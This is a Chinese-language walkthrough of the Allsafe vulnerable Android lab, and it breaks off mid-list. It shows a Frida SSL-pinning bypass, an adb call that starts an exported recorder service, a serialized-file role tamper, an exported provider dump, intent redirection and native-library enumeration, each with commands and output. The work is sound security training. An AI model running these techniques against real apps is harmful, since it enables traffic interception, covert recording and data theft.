

<!-- 这是一张图片，ocr 内容为： -->


这里说明允许webview访问设备的文件系统，意味着webview可以访问使用file://URL方案打开的本地文件

<!-- 这是一张图片，ocr 内容为： -->


也可以

<!-- 这是一张图片，ocr 内容为： -->


# Certificate Pinning  证书别针
**漏洞描述 ：**

移动应用程序中用于 SSL/TLS 证书验证的证书固定机制可被绕过。通常，证书固定机制确保客户端和服务器之间的通信仅信任特定的证书，从而防止中间人攻击 (MitM)。然而，如果应用程序中的此控制被绕过，攻击者可以使用逆向工程、运行时钩子（Frida、Xposed）或薄弱的证书固定实现来解密 SSL 流量。这会削弱应用程序的安全通信机制，并允许攻击者拦截本应加密的数据（用户名、密码、令牌、会话信息等）。

运行一下frida codeshare里的SSL证书验证绕过脚本

```powershell
PS C:\Users\35159> frida -U --codeshare Q0120S/bypass-ssl-pinning -f infosecadventures.allsafe
     ____
    / _  |   Frida 17.8.0 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawning `infosecadventures.allsafe`...
Hello! This is the first time you're running this particular snippet, or the snippet's source code has changed.

Project Name: Bypass SSL Pinning
Author: @Q0120S
Slug: Q0120S/bypass-ssl-pinning
Fingerprint: ac76d00550025da4fbca5adaf93948a773ed982c9b53baa44e13e437bbef401e
URL: https://codeshare.frida.re/@Q0120S/bypass-ssl-pinning

Are you sure you'd like to trust this project? [y/N] y
Adding fingerprint ac76d00550025da4fbca5adaf93948a773ed982c9b53baa44e13e437bbef401e to the trust store! You won't be prompted again unless the code changes.
Spawned `infosecadventures.allsafe`. Resuming main thread!
[Android Emulator 5554::infosecadventures.allsafe ]-> ---
Unpinning Android app...
[+] SSLPeerUnverifiedException auto-patcher
[+] HttpsURLConnection (setDefaultHostnameVerifier)
[+] HttpsURLConnection (setSSLSocketFactory)
[+] HttpsURLConnection (setHostnameVerifier)
[+] SSLContext
[+] TrustManagerImpl
[+] OkHTTPv3 (list)
[ ] OkHTTPv3 (cert)
[+] OkHTTPv3 (cert array)
[+] OkHTTPv3 ($okhttp)
[ ] Trustkit OkHostnameVerifier(SSLSession)
[ ] Trustkit OkHostnameVerifier(cert)
[ ] Trustkit PinningTrustManager
[ ] Appcelerator PinningTrustManager
[ ] OpenSSLSocketImpl Conscrypt
[ ] OpenSSLEngineSocketImpl Conscrypt
[ ] OpenSSLSocketImpl Apache Harmony
[ ] PhoneGap sslCertificateChecker
[ ] IBM MobileFirst pinTrustedCertificatePublicKey (string)
[ ] IBM MobileFirst pinTrustedCertificatePublicKey (string array)
[ ] IBM WorkLight HostNameVerifierWithCertificatePinning (SSLSocket)
[ ] IBM WorkLight HostNameVerifierWithCertificatePinning (cert)
[ ] IBM WorkLight HostNameVerifierWithCertificatePinning (string string)
[ ] IBM WorkLight HostNameVerifierWithCertificatePinning (SSLSession)
[ ] Conscrypt CertPinManager
[ ] CWAC-Netsecurity CertPinManager
[ ] Worklight Androidgap WLCertificatePinningPlugin
[ ] Netty FingerprintTrustManagerFactory
[ ] Squareup CertificatePinner (cert)
[ ] Squareup CertificatePinner (list)
[ ] Squareup OkHostnameVerifier (cert)
[ ] Squareup OkHostnameVerifier (SSLSession)
[+] Android WebViewClient (SslErrorHandler)
[ ] Android WebViewClient (WebResourceError)
[ ] Apache Cordova WebViewClient
[ ] Boye AbstractVerifier
[ ] Appmattus (CertificateTransparencyInterceptor)
[ ] Appmattus (CertificateTransparencyTrustManager)
```

再点击发送请求，BurpSuite就可以拦截到

<!-- 这是一张图片，ocr 内容为： -->



# Weak Cryptography  弱密码学
**漏洞描述 ：**

该应用程序使用不安全的加密方法来加密和维护敏感数据的完整性。


先看源码

固定密钥（KEY = "1nf053c4dv3n7ur3")

AES加密使用ECB模式

使用了MD5算法

```java
public class WeakCryptography extends Fragment {
    public static final String KEY = "1nf053c4dv3n7ur3";

    public static String encrypt(String value) {
        try {
            SecretKeySpec secretKeySpec = new SecretKeySpec(KEY.getBytes(StandardCharsets.UTF_8), "AES");
            Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5PADDING");
            cipher.init(1, secretKeySpec);
            byte[] encrypted = cipher.doFinal(value.getBytes());
            return new String(encrypted);
        } catch (InvalidKeyException | NoSuchAlgorithmException | BadPaddingException | IllegalBlockSizeException | NoSuchPaddingException e) {
            e.printStackTrace();
            return null;
        }
    }

    public static String md5Hash(String text) {
        StringBuilder stringBuilder = new StringBuilder();
        try {
            MessageDigest digest = MessageDigest.getInstance("MD5");
            digest.update(text.getBytes());
            byte[] messageDigest = digest.digest();
            stringBuilder.append(String.format("%032X", new BigInteger(1, messageDigest)));
        } catch (Exception e) {
            Log.d("ALLSAFE", e.getLocalizedMessage());
        }
        return stringBuilder.toString();
    }

```


# <font style="color:rgb(36, 36, 36);">Insecure Service不安全的服务</font>
主要原因就是，状态是可导出的，这意味着可以直接从终端调用它，而无需通过用户界面。这意味着任何恶意应用程序都可以利用此行为调用该服务并录制受害者的音频。

<!-- 这是一张图片，ocr 内容为： -->


使用drozer都能扫到

```powershell
(.venv) PS E:\android\drozer> drozer console connect
Selecting 636b8e9b5dcaa8b2 (BlackShark SHARK PAR-A0 9)

            ..                    ..:.
           ..o..                  .r..
            ..a..  . ....... .  ..nd
              ro..idsnemesisand..pr
              .otectorandroidsneme.
           .,sisandprotectorandroids+.
         ..nemesisandprotectorandroidsn:.
        .emesisandprotectorandroidsnemes..
      ..isandp,..,rotecyayandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.

drozer Console (v3.1.0)
```

```powershell
dz> run app.package.attacksurface infosecadventures.allsafe
Attempting to run shell module
Attack Surface:
  3 activities exported
  2 broadcast receivers exported
  1 content providers exported
  1 services exported
    is debuggable
dz> run app.service.info -a infosecadventures.allsafe
Attempting to run shell module
Package: infosecadventures.allsafe
  infosecadventures.allsafe.challenges.RecorderService
    Permission: null
```

外部访问就行

```powershell
PS C:\Users\35159> adb shell am startservice infosecadventures.allsafe/.challenges.RecorderService
Starting service: Intent { act=android.intent.action.MAIN cat=[android.intent.category.LAUNCHER] cmp=infosecadventures.allsafe/.challenges.RecorderService }
```

<!-- 这是一张图片，ocr 内容为：FILE://STORAGE/EMULATED/DOWNLOAD/ALLSAFE_REC-20260403-160800743.MP3 -->



# <font style="color:rgb(36, 36, 36);">Object Serialization对象序列化</font>
**漏洞描述：**

该应用会创建一个包含 username 、 password 和 role User 对象。此对象使用 ObjectOutputStream 进行序列化，并以 user.dat 的名称保存在外部应用存储中，具体位置为 /sdcard/Android/data/infosecadventures.allsafe/files/ 。序列化允许将对象的状态写入文件，以便稍后检索。每个 User 对象都有一个 role 字段。默认情况下，该字段设置为 "ROLE_AUTHOR" 。如果用户的角色为 "ROLE_EDITOR" ，则授予其访问特定功能的权限；否则，拒绝访问。

可利用的点就在这里， 他应用**信任磁盘上的序列化数据，我们可以修改文件的role字段，从而绕过限制**

**文件存放在**

<!-- 这是一张图片，ocr 内容为：SDCARD/ANDROID/DATA/INFOSECADVENTURES.ALLSAFE/FILES/ 文件夹:0 文件:2 储存:2.23G/49.32G USER.DAT 26-04-03 16:21 175B -->


源码

```java
package infosecadventures.allsafe.challenges;

import android.os.Bundle;
import android.text.Editable;
import android.util.Log;
import android.view.LayoutInflater;
import android.view.View;
import android.view.ViewGroup;
import android.widget.Button;
import android.widget.Toast;
import androidx.fragment.app.Fragment;
import com.google.android.material.textfield.TextInputEditText;
import infosecadventures.allsafe.R;
import infosecadventures.allsafe.utils.SnackUtil;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Objects;

/* JADX INFO: loaded from: classes4.dex */
public class ObjectSerialization extends Fragment {
    @Override // androidx.fragment.app.Fragment
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View view = inflater.inflate(R.layout.fragment_object_serialization, container, false);
        final TextInputEditText username = (TextInputEditText) view.findViewById(R.id.username);
        final TextInputEditText password = (TextInputEditText) view.findViewById(R.id.password);
        Button save = (Button) view.findViewById(R.id.save);
        Button load = (Button) view.findViewById(R.id.load);
        final String path = requireActivity().getExternalFilesDir(null) + "/user.dat";
        save.setOnClickListener(new View.OnClickListener() { // from class: infosecadventures.allsafe.challenges.ObjectSerialization$$ExternalSyntheticLambda0
            @Override // android.view.View.OnClickListener
            public final void onClick(View view2) {
                this.f$0.lambda$onCreateView$0(username, password, path, view2);
            }
        });
        load.setOnClickListener(new View.OnClickListener() { // from class: infosecadventures.allsafe.challenges.ObjectSerialization$$ExternalSyntheticLambda1
            @Override // android.view.View.OnClickListener
            public final void onClick(View view2) {
                this.f$0.lambda$onCreateView$1(path, view2);
            }
        });
        return view;
    }

    /* JADX INFO: Access modifiers changed from: private */
    public /* synthetic */ void lambda$onCreateView$0(TextInputEditText username, TextInputEditText password, String path, View v) {
        if (!((Editable) Objects.requireNonNull(username.getText())).toString().isEmpty() && !((Editable) Objects.requireNonNull(password.getText())).toString().isEmpty()) {
            User user = new User(username.getText().toString(), password.getText().toString());
            try {
                File file = new File(path);
                FileOutputStream fos = new FileOutputStream(file);
                ObjectOutputStream oos = new ObjectOutputStream(fos);
                oos.writeObject(user);
                oos.close();
                fos.close();
            } catch (IOException e) {
                Log.d("ALLSAFE", e.getLocalizedMessage());
            }
            SnackUtil.INSTANCE.simpleMessage(requireActivity(), "User data successfully saved!");
            return;
        }
        SnackUtil.INSTANCE.simpleMessage(requireActivity(), "Fill out the fields!");
    }

    /* JADX INFO: Access modifiers changed from: private */
    public /* synthetic */ void lambda$onCreateView$1(String path, View v) {
        if (new File(path).exists()) {
            try {
                File file = new File(path);
                FileInputStream fis = new FileInputStream(file);
                ObjectInputStream ois = new ObjectInputStream(fis);
                User user = (User) ois.readObject();
                ois.close();
                fis.close();
                if (!user.role.equals("ROLE_EDITOR")) {
                    SnackUtil.INSTANCE.simpleMessage(requireActivity(), "Sorry, only editors have access!");
                } else {
                    SnackUtil.INSTANCE.simpleMessage(requireActivity(), "Good job!");
                    Toast.makeText(requireContext(), user.toString(), 0).show();
                }
                return;
            } catch (IOException | ClassNotFoundException e) {
                Log.d("ALLSAFE", e.getLocalizedMessage());
                return;
            }
        }
        SnackUtil.INSTANCE.simpleMessage(requireActivity(), "File not found!");
    }

    public static class User implements Serializable {
        String password;
        String role = "ROLE_AUTHOR";
        String username;

        public User() {
        }

        public User(String username, String password) {
            this.username = username;
            this.password = password;
        }

        public String toString() {
            return "User{username='" + this.username + "', password='" + this.password + "', role='" + this.role + "'}";
        }
    }
}
```

打开文件

<!-- 这是一张图片，ocr 内容为：1:151 USER.DAT /ME @ @ DASSWORDTILLAVA/LANG/STRING/STRING/L USERNAMEQ~XPT 123456T 123456T ROLE AUTHORT WEIXIAO SR-INFOSECADVENTURES.ALLSAFE.CHALLENGES.OBJECTSERIALIZATION$USER -->


直接修改保存

<!-- 这是一张图片，ocr 内容为：1:164 UTF-8 *USER.DAT -->


这就意味着我们有了更高的权限

# <font style="color:rgb(36, 36, 36);">Insecure Providers不安全的提供商</font>
<!-- 这是一张图片，ocr 内容为：INSECURE PROVIDERS [HARD] EXPLOIT INSECURE CONTENT PROVIDERS [CHALLENGE 17] EXPLOIT PROVIDER MISSION BRIEFING WE GOT A REPORT THAT OUR NOTES DATABASE LEA ASE LEAKED THROUGH AN INS TEAM SAID IT'S EASY N INSECURE CONTENT PROVIDER. FORTUNATELY, THE DEV AN TO SECURE ANDROID INTER PROCESS COMMUNICATION. THE APP APP A E WITH OTHER APPS... PP ALSO PROVIDES ACCESS TO SOME FILES WHICH WE SHARE WIL E FILE LEAK. CAN YOU CHECK IF THE IMPLEMENTATION IS GOO 5 GOOD ENOUGH? ALLSAFE CAN'T AFFORD ANOTHER SENSITIVE -->
挑战中提到我们有两个不安全的内容提供商，第一个是数据库提供商，第二个是文件提供商

但我们用drozer扫的时候只有一个是可导出状态，

```java
dz> run app.package.attacksurface infosecadventures.allsafe
Attempting to run shell module
Attack Surface:
  3 activities exported
  2 broadcast receivers exported
  1 content providers exported
  1 services exported
    is debuggable
dz> run app.service.info -a infosecadventures.allsafe
Attempting to run shell module
Package: infosecadventures.allsafe
  infosecadventures.allsafe.challenges.RecorderService
    Permission: null
```

我们去AndroidMainfest.xml文件看看，那个是可导出，呢个不可导出

我们可以看到数据提供商是可导出的，文件提供商是不可导出的

<!-- 这是一张图片，ocr 内容为：<PROVIDER ANDROID:NAME:"INFOSECADVENTURES.ALLSAFE.CHALLENGES.DATAPROVIDEN" ANDROID:ENABLEDTRUE" ANDROID:EXPORTED"TRUE" ANDROID:AUTHORITIES-"INFOSECADVENTURES.ALLSAFE.DATAPROVIDER"/> <PROVIDER ANDROID:NAME:"ANDROIDX.CORE.CONTENT.FILEPROVIDER" ANDROID:EXPORTED"FALSE" ANDROID:AUTHORITIES-"INFOSECADVENTURES.ALLSAFE.FILEPROVIDER" ANDROID:GRANTURIPERMISSIONS"TRVE"> <META-DATA ANDROID:NAME-"ANDROID.SUPPORT.FILE.PROVIDER PATHS" ANDROID:RESOURCE"@XML/PROVIDER_PATHS"/> -->


我们先利用数据的可导出性，看看有啥东西

```text
PS C:\Users\35159> adb shell content query --uri "content://infosecadventures.allsafe.dataprovider"
Row: 0 id=1, user=admin, note=I can not believe that Jill is still using 123456 as her password...
Row: 1 id=2, user=elliot.alderson, note=A bug is never just a mistake. It represents something bigger. An error of thinking. That makes you who you are.
Row: 2 id=3, user=darlene.alderson, note=That’s the trick about money. Banks care more about it than anything else.
Row: 3 id=4, user=gideon.goddard, note=You’re never sure about anything unless there’s something to be sure about.
```

虽然文件没有导出，但FileProvider 的 grantUriPermissions="true" 这意味着 AllSafe 应用中的其他组件 （例如已导出的 Activity）可以使用 Intent 和已授权的 URI 与该提供程序进行交互。

通常是通过 Intent 中的 FLAG_GRANT_READ_URI_PERMISSION 或 FLAG_GRANT_WRITE_URI_PERMISSION 标志。但是，要实现这一点，应用必须显式地共享一个 URI。

如果 AllSafe 应用中存在导出的活动、服务或广播接收器，可以接受指向 FileProvider 管理的文件的 URI 的 Intents ，那么我们就可以滥用此机制来读取或写入应该受到限制的文件。

要有效利用 FileProvider ，你需要弄清楚通过 URI 共享的文件的真实路径 。Android 的 FileProvider 不会直接暴露完整的文件路径；相反，它使用 URI 映射到某些预定义目录中的文件。

在他下面可以看到xml文件的名字

<!-- 这是一张图片，ocr 内容为：SMETA-DATA ANDROID:NAME-"ANDROID.SUPPORT.FILE_PROVIDER_PATHS" ANDROID:RESOURCE"@XML/PROVIDER_PATHS"/> -->


直接去找

<!-- 这是一张图片，ocr 内容为：<?XML VERSION:"1.0" ENCODING:"UTF-8"?> &PATHS> <FILES-PATH NAME"FILES" PATH </PATHS> -->


<files-path> 元素表明 FileProvider 已配置为公开应用程序内部存储 files/ 目录下的文件。具体来说， path="." 表示应用程序内部 files/ 目录中的所有文件都可能通过 FileProvider 访问。

files-path 指的是应用程序的内部存储位置 /data/data/infosecadventures.allsafe/files/

由于 path="." ，因此可以访问该目录中的所有文件 

现在，是时候在 AllSafe 应用中寻找其他组件 （如导出的活动），以便使用 Intent 和授权 URI 与提供商进行交互。

看作者的wp发现有一个名为 ProxyActivity 导出活动，它将 intent 作为额外的参数传递。

<!-- 这是一张图片，ocr 内容为：JADX INFO:LOADEDFROM:CLASSESSES5.DEX */ PUBLIC CLASS PROXYACTIVITY EXTENDS APPCOMPATACTIVITY ( IL  ONDRETER  RRINT  RRAYMORTEETS  ENTEETS, ONTS  ETIVETIVETIVITEETIVITEETIVITEETS, ETIVITE    ETIVIT @OVERRIDE // AN PROTECTED VOID ONCREATE(BUNDLE SAVEDINSTANCESTATE) { SUPER.ONCREATE(SAVEDINSTANCESTATE); STARTACTIVITY((INTENT) GETINTENT().GETPARCELABLEEXTRA("EXTRA.INTENT'); -->


由于该活动会被导出，且似乎并未验证额外信息的意图或来源， 因此攻击者可能利用此漏洞触发任意活动 ，例如启动一个带有恶意意图的活动。这意味着任何包含名为 "extra_intent" 的额外信息的意图都可能导致 ProxyActivity 启动另一个活动，而 "extra_intent" 的内容可能由攻击者控制。

# <font style="color:rgb(36, 36, 36);">Native Library  </font>
本地so库在native层

在frida交互界面


位置在

```text
[Android Emulator 5554::Allsafe ]-> Process.findModuleByName("libnative_library.so")
{
    "base": "0x763879583000",
    "name": "libnative_library.so",
    "path": "/data/app/infosecadventures.allsafe-CW6W470gPQ-sX6s2-BUJPA==/lib/x86_64/libnative_library.so",
    "size": 311296,
    "version": null
}
```

导出的函数有

```text
[Android Emulator 5554::Allsafe ]-> m.enumerateExports().map(e => e.name)
[
    "_ZN7_JNIEnv24ReleaseByteArrayElementsEP11_jbyteArrayPai",
    "_ZTSPw",
    "_ZdaPvmSt11align_val_t",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE5rfindEcm",
    "_ZNSt6__ndk14stodERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPm",
    "_ZTSPx",
    "__cxa_throw",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE4nposE",
    "_ZTSPy",
    "_ZNSt10bad_typeidD0Ev",
    "_ZNSt6__ndk111char_traitsIcE6lengthEPKc",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6assignERKS5_mm",
    "__cxa_deleted_virtual",
    "_ZNSt11logic_errorD0Ev",
    "_ZTISt13runtime_error",
    "_ZNSt6__ndk111char_traitsIwE4moveEPwPKwm",
    "_ZNSt6__ndk14stolERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPmi",
    "_ZNSt9exceptionD2Ev",
    "__cxa_unexpected_handler",
    "_ZNSt9bad_allocD2Ev",
    "_ZNSt11range_errorD2Ev",
    "_ZNSt12out_of_rangeD2Ev",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE12find_last_ofEPKcmm",
    "_ZNSt9type_infoD2Ev",
    "_ZNSt12domain_errorD0Ev",
    "_ZNSt16invalid_argumentD2Ev",
    "_ZNSt20bad_array_new_lengthD2Ev",
    "_ZTISt9exception",
    "_ZTIPa",
    "_Z14jstring2stringP7_JNIEnvP8_jstring",
    "_ZNSt6__ndk14stoiERKNS_12basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEEEPmi",
    "_ZTIPb",
    "_ZTIDh",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEaSERKS5_",
    "_ZTIPc",
    "_ZTIDi",
    "_ZNKSt8bad_cast4whatEv",
    "_ZN7_JNIEnv14DeleteLocalRefEP8_jobject",
    "_ZNSt13runtime_errorC2ERKS_",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE4copyEPcmm",
    "__cxa_rethrow",
    "_ZTIPd",
    "_ZTVN10__cxxabiv129__pointer_to_member_type_infoE",
    "_ZN7_JNIEnv16CallObjectMethodEP8_jobjectP10_jmethodIDz",
    "_ZNSt11logic_errorC1ERKNSt6__ndk112basic_stringIcNS0_11char_traitsIcEENS0_9allocatorIcEEEE",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6insertEmPKc",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE4findEwm",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE7compareEmmPKwm",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE4nposE",
    "_ZTVSt13runtime_error",
    "_ZSt17__throw_bad_allocv",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7compareEmmRKS5_mm",
    "_ZTSN10__cxxabiv120__function_type_infoE",
    "_ZTIPf",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEED2Ev",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE9__grow_byEmmmmmm",
    "_ZTIPg",
    "_ZN7_JNIEnv14GetObjectClassEP8_jobject",
    "_ZTIN10__cxxabiv120__function_type_infoE",
    "_ZTIDn",
    "_ZTIPh",
    "_ZTIPKa",
    "_ZTSSt8bad_cast",
    "_ZN7_JNIEnv11GetMethodIDEP7_jclassPKcS3_",
    "_ZNSt13runtime_erroraSERKS_",
    "__cxa_free_exception",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6insertEmPKw",
    "_ZNSt6__ndk15stoulERKNS_12basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEEEPmi",
    "_ZSt14get_unexpectedv",
    "_ZTIPKb",
    "_ZTIPi",
    "_ZNKSt20bad_array_new_length4whatEv",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE7replaceEmmRKS5_mm",
    "_ZTIPKc",
    "_ZTIPj",
    "_ZNSt8bad_castD2Ev",
    "_ZTIPKd",
    "_ZNSt11logic_errorC1EPKc",
    "_ZTIPl",
    "_ZdaPvm",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE6__initEmc",
    "_ZTIPm",
    "_ZTIPKf",
    "_ZTIDs",
    "_ZNKSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE5rfindEwm",
    "_ZSt15get_new_handlerv",
    "__cxa_demangle",
    "_ZTIPn",
    "_ZTIPKg",
    "_ZTSSt15underflow_error",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE6appendERKS5_mm",
    "__cxa_call_unexpected",
    "_ZTIPKh",
    "_ZTIPo",
    "_ZTIDu",
    "_ZTIPKi",
    "_Znam",
    "_ZSt13set_terminatePFvvE",
    "_ZSt15set_new_handlerPFvvE",
    "_ZTIPKj",
    "_ZNSt6__ndk112basic_stringIwNS_11char_traitsIwEENS_9allocatorIwEEE21__grow_by_and_replaceEmmmmmmPKw",
    "_ZTVSt16invalid_argument",
    "_ZTIN10__cxxabiv119__pointer_type_infoE",
    "_ZTIa",
    "_ZTIPs",
    "_ZTIPKl",
    "__cxa_begin_catch",
    "_ZNKSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE17find_first_not_ofEPKcmm",
    "_ZTSN10__cxxabiv116__shim_type_infoE",
    "_ZTIb",
    "_ZTIPt",
    "_ZTIPKm",
    "_ZTVSt9bad_alloc",
    "_Z18hardcoreEncryptionP7_JNIEnvP8_jstring",
    "_ZNSt9bad_allocC1Ev",
    "_ZTIc",
    "_ZTIPKn",
    "_ZNSt14overflow_errorD2Ev",
    "_ZNSt12length_errorD1Ev",
    "_ZNSt6__ndk112basic_stringIcNS_11char_traitsIcEENS_9allocatorIcEEE5eraseEmm",
    "_ZTIPv",
    "_ZTIPKo",
    "_ZTId",
    "_ZNSt13bad_exceptionD2Ev",
